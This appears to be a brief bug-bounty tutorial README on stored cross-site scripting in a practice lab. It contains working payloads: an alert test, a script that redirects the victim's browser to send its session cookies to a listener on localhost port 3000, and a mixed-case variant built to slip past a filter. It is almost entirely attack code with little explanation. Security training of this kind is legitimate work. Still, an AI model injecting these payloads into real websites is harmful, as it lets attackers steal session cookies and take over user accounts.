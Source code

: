 # bug-bounty-tutorial
bug bounty tutorial

## 18.XSS-store

### low in name & message
```
python3 -m http.server 3000
<script>alert("XSS");</script>
```
### change textarea size
```
<script>window.location="http://127.0.0.1:3000/?cookie="+document.cookie</script>
```
### medium
### change input size
```
<ScRipT>window.location="http://127.0.0.1:3000/?cookie="+document.cookie</script>
```
